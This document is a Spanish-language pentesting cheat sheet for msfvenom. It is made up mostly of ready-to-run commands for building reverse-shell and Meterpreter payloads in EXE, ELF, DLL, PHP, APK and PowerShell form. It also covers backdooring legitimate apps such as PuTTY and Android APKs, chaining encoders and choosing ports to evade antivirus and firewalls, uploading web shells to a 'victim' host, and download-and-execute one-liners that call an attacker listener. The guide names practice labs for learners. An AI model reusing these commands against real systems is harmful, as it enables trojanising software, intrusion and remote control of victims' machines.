

## 📌 Introducción

**msfvenom** es una herramienta de generación de payloads que forma parte de **Metasploit Framework**. Combina las funcionalidades de las antiguas herramientas `msfpayload` y `msfencode` en una única utilidad moderna y poderosa.

### ¿Para qué sirve?

- **Generar shellcode** personalizado para exploits
- **Crear ejecutables maliciosos** (EXE, DLL, APK, etc.)
- **Codificar payloads** para evasión de antivirus
- **Excluir bad characters** en buffer overflows
- **Convertir formatos** de payloads (C, Python, PowerShell, Raw, etc.)

### ¿Cuándo usarlo?

En **pentesting y explotación**, msfvenom es fundamental para: 

- 🎯 **Buffer Overflow**: Generar shellcode sin badchars
- 🔓 **Reverse Shells**: Crear payloads de conexión inversa
- 📱 **APK Trojans**: Inyectar backdoors en aplicaciones Android
- 🪟 **Malware Windows**: Crear ejecutables personalizados
- 🌐 **Web Shells**: Payloads PHP, ASP, JSP para servidores web

> [!tip] Ventaja clave
> msfvenom automatiza la creación de payloads complejos que serían difíciles de escribir manualmente, y los adapta a diferentes arquitecturas y sistemas operativos.

---

## 🛠️ Instalación

msfvenom viene incluido en **Metasploit Framework**, disponible por defecto en:

- **Kali Linux**
- **Parrot Security OS**
- **BlackArch Linux**

### Verificar instalación

```bash
msfvenom --version
```

**Salida esperada:**
```
msfvenom v6.3.25-dev
```

### Instalación manual (si no está disponible)

```bash
# Kali/Debian/Ubuntu
sudo apt update
sudo apt install metasploit-framework

# Arch Linux
sudo pacman -S metasploit

# Desde repositorio oficial
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
chmod 755 msfinstall
./msfinstall
```

---

## 📖 Sintaxis básica

```bash
msfvenom [opciones] -p <payload> LHOST=<ip> LPORT=<puerto> -f <formato> -o <archivo_salida>
```

### Estructura del comando

| Componente | Descripción | Ejemplo |
|------------|-------------|---------|
| `-p, --payload` | Especifica el tipo de payload | `windows/meterpreter/reverse_tcp` |
| `LHOST` | IP del atacante (listener) | `192.168.1.100` |
| `LPORT` | Puerto del atacante | `4444` |
| `-f, --format` | Formato de salida | `exe`, `py`, `raw`, `c` |
| `-o, --out` | Archivo de salida | `payload.exe` |
| `-e, --encoder` | Encoder para ofuscación | `x86/shikata_ga_nai` |
| `-b, --bad-chars` | Bad characters a excluir | `\x00\x0a\x0d` |
| `-a, --arch` | Arquitectura | `x86`, `x64`, `arm` |
| `--platform` | Sistema operativo | `windows`, `linux`, `android` |

---

## 🔍 Comandos de consulta

### Listar payloads disponibles

```bash
# Todos los payloads
msfvenom -l payloads

# Filtrar por sistema operativo
msfvenom -l payloads | grep windows
msfvenom -l payloads | grep linux
msfvenom -l payloads | grep android

# Filtrar por tipo
msfvenom -l payloads | grep reverse_tcp
msfvenom -l payloads | grep meterpreter
```

**Payloads más comunes:**

| Payload | Descripción |
|---------|-------------|
| `windows/shell_reverse_tcp` | Reverse shell básica (Windows) |
| `windows/meterpreter/reverse_tcp` | Meterpreter completo (Windows) |
| `linux/x86/shell_reverse_tcp` | Reverse shell (Linux 32-bit) |
| `linux/x64/shell_reverse_tcp` | Reverse shell (Linux 64-bit) |
| `android/meterpreter/reverse_tcp` | Meterpreter para Android |
| `java/jsp_shell_reverse_tcp` | Web shell JSP |
| `php/meterpreter/reverse_tcp` | Meterpreter PHP |

---

### Listar formatos de salida

```bash
msfvenom -l formats
```

**Formatos principales:**

| Formato | Extensión | Uso |
|---------|-----------|-----|
| `exe` | .exe | Ejecutable Windows |
| `dll` | .dll | Librería Windows |
| `elf` | (sin ext) | Ejecutable Linux |
| `apk` | .apk | Aplicación Android |
| `py` | .py | Script Python (shellcode) |
| `c` | .c | Código C (shellcode) |
| `raw` | .bin | Binario puro |
| `ps1` | .ps1 | PowerShell |
| `war` | .war | Java Web Archive |
| `asp` | .asp | Web shell ASP |
| `php` | .php | Web shell PHP |

---

### Listar encoders

```bash
msfvenom -l encoders
```

**Encoders destacados:**

| Encoder | Arquitectura | Calidad | Uso |
|---------|--------------|---------|-----|
| `x86/shikata_ga_nai` | x86 | Excelente | Polimórfico XOR (muy usado) |
| `x64/zutto_dekiru` | x64 | Excelente | Polimórfico para 64-bit |
| `x86/fnstenv_mov` | x86 | Bueno | FPU GetPC |
| `cmd/powershell_base64` | CMD | Normal | Ofusca PowerShell |
| `php/base64` | PHP | Normal | Ofusca PHP |

---

## 💻 Ejemplos prácticos

### Ejemplo 1: Reverse shell básica Windows (EXE)

```bash
msfvenom -p windows/shell_reverse_tcp \
         LHOST=192.168.1.100 \
         LPORT=4444 \
         -f exe \
         -o payload.exe
```

**¿Qué hace?**
- Crea un ejecutable Windows (`.exe`)
- Al ejecutarse, conecta a `192.168.1.100:4444`
- Proporciona una shell CMD

**Preparar listener:**
```bash
# En otra terminal
nc -nlvp 4444
```

---

### Ejemplo 2: Meterpreter con encoder (evasión de AV)

```bash
msfvenom -p windows/meterpreter/reverse_tcp \
         LHOST=192.168.1.100 \
         LPORT=443 \
         -e x86/shikata_ga_nai \
         -i 10 \
         -f exe \
         -o meterpreter_encoded.exe
```

**Parámetros:**
- `-e x86/shikata_ga_nai`: Encoder polimórfico
- `-i 10`: 10 iteraciones de encoding (más ofuscación)

**Listener en Metasploit:**
```bash
msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 443
exploit
```

---

### Ejemplo 3: Shellcode para Buffer Overflow (Python)

```bash
msfvenom -p windows/shell_reverse_tcp \
         LHOST=192.168.1.100 \
         LPORT=443 \
         --platform windows \
         -a x86 \
         -f py \
         -e x86/shikata_ga_nai \
         -b '\x00\x0a\x0d' \
         EXITFUNC=thread
```

**¿Qué hace?**
- Genera shellcode en formato Python
- Excluye badchars:  `\x00` (null), `\x0a` (LF), `\x0d` (CR)
- `EXITFUNC=thread`: No mata el proceso padre

**Salida:**
```python
buf =  b""
buf += b"\xda\xcd\xd9\x74\x24\xf4\xba\x4e\x9f\x3a\x7c"
buf += b"\x5b\x33\xc9\xb1\x52\x31\x53\x17\x03\x53\x17"
# ...  (resto del shellcode)
```

> [!example] Uso en exploit
> Copias este `buf` directamente a tu script de explotación de buffer overflow.

---

### Ejemplo 4: Backdoor en APK Android

```bash
# Descargar APK legítima
wget https://example.com/app.apk -O original.apk

# Inyectar payload
msfvenom -p android/meterpreter/reverse_tcp \
         LHOST=192.168.1.100 \
         LPORT=4444 \
         -x original.apk \
         -o backdoored.apk
```

**Parámetros:**
- `-x original.apk`: Inyecta en una APK existente
- `-o backdoored.apk`: APK resultante

**Listener:**
```bash
msfconsole -q
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```

---

### Ejemplo 5: Web Shell PHP

```bash
msfvenom -p php/meterpreter/reverse_tcp \
         LHOST=192.168.1.100 \
         LPORT=8080 \
         -f raw \
         -o shell.php
```

**Subir a servidor web:**
```bash
# Usando curl con upload vulnerable
curl -F "file=@shell.php" http://victim.com/upload. php

# Acceder para ejecutar
curl http://victim.com/uploads/shell.php
```

---

### Ejemplo 6: Payload en PowerShell

```bash
msfvenom -p windows/meterpreter/reverse_tcp \
         LHOST=192.168.1.100 \
         LPORT=443 \
         -f psh \
         -o payload. ps1
```

**Ejecutar en Windows:**
```powershell
# Desde CMD
powershell -ExecutionPolicy Bypass -File payload.ps1

# Desde PowerShell
IEX(New-Object Net.WebClient).DownloadString('http://192.168.1.100/payload.ps1')
```

---

### Ejemplo 7: Linux ELF reverse shell

```bash
msfvenom -p linux/x64/shell_reverse_tcp \
         LHOST=192.168.1.100 \
         LPORT=4444 \
         -f elf \
         -o payload. elf

# Dar permisos de ejecución
chmod +x payload.elf
```

**Transferir a víctima:**
```bash
# En víctima
wget http://192.168.1.100:8000/payload.elf
./payload.elf
```

---

### Ejemplo 8: Shellcode en C (para exploits)

```bash
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=192.168.1.100 \
         LPORT=4444 \
         -f c \
         -b '\x00\x0a\x0d'
```

**Salida:**
```c
unsigned char buf[] = 
"\xda\xc1\xd9\x74\x24\xf4\x5e\xbe\x4e\x9f\x3a\x7c\x33\xc9"
"\xb1\x12\x31\x76\x17\x83\xc6\x04\x03\x53\xfc\x4a\x96\x31";
```

**Uso en exploit C:**
```c
#include <stdio.h>

unsigned char buf[] = "\xda\xc1... "; // Shellcode

int main() {
    int (*func)();
    func = (int (*)()) buf;
    (int)(*func)();
}
```

---

## 🎯 Casos de uso avanzados

### Crear ejecutable sin encoder (más pequeño)

```bash
msfvenom -p windows/shell_reverse_tcp \
         LHOST=192.168.1.100 \
         LPORT=4444 \
         -f exe \
         --smallest \
         -o small_payload.exe
```

---

### Múltiples encoders en cadena

```bash
msfvenom -p windows/meterpreter/reverse_tcp \
         LHOST=192.168.1.100 \
         LPORT=443 \
         -e x86/shikata_ga_nai \
         -i 5 \
         -e x86/fnstenv_mov \
         -i 3 \
         -f exe \
         -o multi_encoded.exe
```

---

### Payload con plantilla personalizada

```bash
# Usar un EXE legítimo como plantilla
msfvenom -p windows/meterpreter/reverse_tcp \
         LHOST=192.168.1.100 \
         LPORT=443 \
         -x putty.exe \
         -k \
         -f exe \
         -o putty_backdoor.exe
```

**Parámetros:**
- `-x putty.exe`: Usa PuTTY como plantilla
- `-k`: Mantiene el comportamiento original de PuTTY

---

### Generar DLL en lugar de EXE

```bash
msfvenom -p windows/meterpreter/reverse_tcp \
         LHOST=192.168.1.100 \
         LPORT=443 \
         -f dll \
         -o payload.dll
```

**Ejecutar DLL:**
```cmd
rundll32.exe payload.dll,0
```

---

## 📊 Tabla comparativa de payloads

### Por tipo de shell

| Tipo | Payload | Ventajas | Desventajas |
|------|---------|----------|-------------|
| **Shell básica** | `windows/shell_reverse_tcp` | Ligera, compatible | Sin funciones avanzadas |
| **Meterpreter** | `windows/meterpreter/reverse_tcp` | Post-explotación avanzada | Más pesado, detectado por AV |
| **Shell sin staging** | `windows/shell/reverse_tcp` | Más sigilosa | Limitada |

### Por arquitectura

| Arquitectura | Payload Linux | Payload Windows |
|--------------|---------------|-----------------|
| **32-bit (x86)** | `linux/x86/shell_reverse_tcp` | `windows/shell_reverse_tcp` |
| **64-bit (x64)** | `linux/x64/shell_reverse_tcp` | `windows/x64/shell_reverse_tcp` |
| **ARM** | `linux/armle/shell_reverse_tcp` | N/A |

---

## 🔄 Flujo de trabajo típico



---

## 💡 Tips y buenas prácticas

### ✅ Recomendaciones generales

> [!tip] Usa puertos comunes
> En lugar de `4444`, usa puertos que parecen legítimos: 
> - **443** (HTTPS)
> - **80** (HTTP)
> - **53** (DNS)
> - **22** (SSH)
> 
> Esto ayuda a evadir firewalls. 

> [!tip] Múltiples iteraciones de encoding
> Para mejor evasión de AV: 
> ```bash
> -e x86/shikata_ga_nai -i 10
> ```
> Entre 5-15 iteraciones es un buen balance.

> [! warning] Encoders incrementan tamaño
> Cada iteración de encoding aumenta el tamaño del payload.  Si el espacio es limitado (buffer overflow), usa menos iteraciones.

> [!tip] Combina con plantillas legítimas
> Inyectar en ejecutables conocidos reduce sospechas: 
> ```bash
> -x putty.exe -k
> ```

---

### 🛡️ Evasión de antivirus

| Técnica | Comando | Efectividad |
|---------|---------|-------------|
| **Encoder básico** | `-e x86/shikata_ga_nai` | ⭐⭐ |
| **Múltiples iteraciones** | `-i 10` | ⭐⭐⭐ |
| **Plantilla legítima** | `-x app.exe -k` | ⭐⭐⭐⭐ |
| **Encoders en cadena** | `-e encoder1 -i 5 -e encoder2 -i 3` | ⭐⭐⭐⭐ |
| **Ofuscación personalizada** | Modificar shellcode manualmente | ⭐⭐⭐⭐⭐ |

> [!warning] Ningún payload es indetectable
> Los antivirus modernos usan heurística y análisis de comportamiento.  La evasión total requiere técnicas avanzadas más allá de msfvenom.

---

### ⚠️ Errores comunes y soluciones

#### Error 1: "No encoder succeeded"

**Causa:** Bad characters demasiado restrictivos. 

**Solución:**
```bash
# Verifica que los badchars sean correctos
# Prueba con menos badchars
-b '\x00'  # Solo null byte
```

---

#### Error 2: Payload no ejecuta

**Causa:** Arquitectura incorrecta. 

**Solución:**
```bash
# Para 32-bit explícito
-a x86 --platform windows

# Para 64-bit explícito
-a x64 --platform windows
```

---

#### Error 3: DLL no funciona con rundll32

**Causa:** DLL sin función exportada correcta.

**Solución:**
```bash
# Especificar función de export
msfvenom -p windows/meterpreter/reverse_tcp \
         LHOST=192.168.1.100 \
         LPORT=443 \
         -f dll \
         -e x86/shikata_ga_nai \
         -o payload.dll

# Ejecutar
rundll32.exe payload.dll,0
```

---

#### Error 4: APK no instala

**Causa:** Firma inválida después de inyección.

**Solución:**
```bash
# Usar jarsigner para firmar
keytool -genkey -v -keystore my-release-key.keystore \
        -alias alias_name -keyalg RSA -keysize 2048 -validity 10000

jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 \
          -keystore my-release-key.keystore backdoored.apk alias_name
```

---

### 🎯 Optimización de payloads

#### Reducir tamaño

```bash
# Payload más pequeño posible
msfvenom -p windows/shell_reverse_tcp \
         LHOST=192.168.1.100 \
         LPORT=4444 \
         -f exe \
         --smallest \
         -o tiny. exe
```

#### Aumentar compatibilidad

```bash
# Payload compatible con Windows XP en adelante
msfvenom -p windows/shell_reverse_tcp \
         LHOST=192.168.1.100 \
         LPORT=4444 \
         --platform windows \
         -a x86 \
         -f exe \
         -o compatible.exe
```

---

## 📚 Comandos de referencia rápida

| Acción | Comando |
|--------|---------|
| **Listar payloads** | `msfvenom -l payloads` |
| **Listar encoders** | `msfvenom -l encoders` |
| **Listar formatos** | `msfvenom -l formats` |
| **Reverse shell Windows** | `msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe -o payload.exe` |
| **Meterpreter Linux** | `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf -o payload. elf` |
| **Shellcode Python** | `msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f py -b '\x00\x0a\x0d'` |
| **APK backdoor** | `msfvenom -p android/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -o payload.apk` |
| **Con encoder** | `msfvenom -p <payload> LHOST=IP LPORT=PORT -e x86/shikata_ga_nai -i 10 -f exe -o encoded.exe` |

---

## 🔗 Recursos adicionales

> [!info] Documentación oficial
> - [Offensive Security - Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)
> - [Rapid7 - Metasploit Documentation](https://docs.metasploit.com/)

> [!example] Prácticas recomendadas
> - **HackTheBox**: Máquinas que requieren payloads personalizados
> - **TryHackMe**: Salas de Metasploit y Buffer Overflow
> - **VulnHub**: VMs vulnerables para practicar

---

## 🎓 Resumen ejecutivo

| Aspecto | Detalle |
|---------|---------|
| **Qué es** | Generador de payloads de Metasploit Framework |
| **Uso principal** | Crear shellcode y ejecutables maliciosos |
| **Formatos** | EXE, ELF, APK, DLL, PHP, Python, C, PowerShell, etc. |
| **Encoders** | Shikata Ga Nai (mejor para x86), Zutto Dekiru (x64) |
| **Bad chars** | `-b '\x00\x0a\x0d'` (común en buffer overflow) |
| **Listeners** | Netcat (`nc -nlvp PORT`) o Metasploit Handler |

---

> [!success] Conclusión
> **msfvenom** es la herramienta estándar de la industria para generación de payloads.  Su versatilidad permite adaptarse a casi cualquier escenario de explotación, desde buffer overflows hasta backdoors en aplicaciones móviles.  Dominar msfvenom es esencial para cualquier pentester. 